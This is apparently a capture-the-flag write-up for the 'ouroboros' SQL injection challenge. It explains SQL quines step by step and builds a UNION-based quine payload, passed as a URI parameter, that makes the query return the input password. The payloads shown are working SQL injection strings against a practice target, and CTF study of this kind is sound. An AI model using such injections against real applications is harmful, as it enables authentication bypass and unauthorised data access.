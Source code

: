 ```yaml
---
custom_edit_url: null
sidebar_position: 30
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/1484f622-d41c-4263-9655-405d71ed15d5)

We are provided with the SQL query:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='{$_GET[pw]}'
```

If `$result['pw']` is equal `$_GET['pw']`, the challenge is solved.

If we provide the following URI parameter:

```
?pw=' UNION SELECT 1 -- -
```

The resultant query becomes:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='' UNION SELECT 1 -- -'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/33c02c9b-464c-4920-b0aa-4d463a1bc01c)

In this case the `$result['pw']` and `$_GET['pw']` differ as follows:

```
$result['pw']: 1
$_GET['pw']: ' UNION SELECT 1 -- -
```

In order to make them the same, we have to use a [Quine](https://en.wikipedia.org/wiki/Quine_(computing)) program.

&nbsp;

## Quine

A Quine is a program that outputs its own souce code without having access to it.
An example of a SQL Quine is:

```sql
SELECT Replace(Replace(
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine',
char(34),char(39)),char(36),
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine')
AS Quine 
```
### Initial string

```sql
-- - SELECT Replace(Replace( -- -
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine'
-- - char(34),char(39)),char(36),'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine') AS Quine -- -
```
### First replacement

```sql
-- - SELECT Replace( -- -
Replace( 
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine', 
char(34), 
char(39)
)
-- - ,char(36),'SELECT REPLACE(REPLACE("$",char(34),char(39)),char(36),"$") AS Quine') AS Quine -- -
```

Replace all occurrences of `char(34)` (double quote `"` character) with `char(39)` (single quote `'` character):

```sql
-- - SELECT Replace( -- -
'SELECT Replace(Replace(\'$\',char(34),char(39)),char(36),\'$\') AS Quine'
-- - ,char(36),'SELECT REPLACE(REPLACE("$",char(34),char(39)),char(36),"$") AS Quine') AS Quine -- 
```
### Second replacement

```sql
-- - SELECT -- -
Replace(
'SELECT Replace(Replace(\'$\',char(34),char(39)),char(36),\'$\') AS Quine', 
char(36),
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine'
)
-- - AS Quine -- -
```

Replace all occurrences of `char(36)` (dollar sign `$` character) with the original string:

```sql
-- - SELECT -- -
'SELECT Replace(Replace(
\'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine\',
char(34),char(39)),char(36),
\'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine\')
AS Quine'
-- - AS Quine -- -
```
### Putting it All Together

The final result of the query is the string after both replacements, as follows:

```sql
SELECT
'SELECT Replace(Replace(
\'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine\',
char(34), char(39)), char(36),
\'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine\')
AS Quine'
AS Quine
```

When this SQL query is executed, it will produce a single column named `Quine` containing the following text:

```sql
SELECT Replace(Replace(
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine',
char(34), char(39)), char(36),
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine')
AS Quine
```

Thus, we can see how the query repeats itself.

&nbsp;
## Modified Quine

```sql
\' UNION SELECT Replace(Replace(
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23',
char(34),char( 39)),char(36), 
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23')
%23
```
### First replacement

```sql
-- - ' UNION SELECT Replace( -- -
Replace(
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23',
char(34),
char(39)
)
-- - ,char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23')%23 -- -
```

Replace all occurrences of `char(34)` (double quote `"` character) with `char(39)` (single quote `'` character):

```sql
-- - ' UNION SELECT Replace( -- -
'\' UNION SELECT Replace(Replace(\'$\',char(34),char(39)),char(36),\'$\')%23'
-- - ,char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23')%23 -- -
```
### Second replacement

```sql
-- - ' UNION SELECT -- -
Replace(
'\' UNION SELECT Replace(Replace(\'$\',char(34),char(39)),char(36),\'$\')%23',
char(36),
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23')
-- - %23 -- -
```

Replace all occurrences of `char(36)` (dollar sign `$` character) with the original string:

```sql
-- - ' UNION SELECT -- -
'\' UNION SELECT Replace(Replace(
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
,char(34),char(39)),char(36),
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
)%23'
-- - %23 -- -
```
### Putting it all together

The final result of the query is the string after both replacements, as follows:

```sql
\' UNION SELECT 
'\' UNION SELECT Replace(Replace(
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
,char(34),char(39)),char(36),
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
)%23'
%23
```

When this SQL query is executed, it will return the following text:

```sql
\' UNION SELECT Replace(Replace(
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23',
char(34),char(39)),char(36),
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23'
)%23
```

We have successfully managed to create a Quine to solve this challenge.

Now, we have to implement this for the challenge.
We will have to modify this Quine to the following:

```sql
UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -',char(34),char( 39)),char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -') -- -
```

If we provide the following URI parameter:

```
?pw=' UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -',char(34),char( 39)),char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -') -- -
```

The resultant query becomes:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='' UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -',char(34),char( 39)),char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -') -- -'
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/075e1d88-9e46-4cd7-a829-b8c68814e9d7)
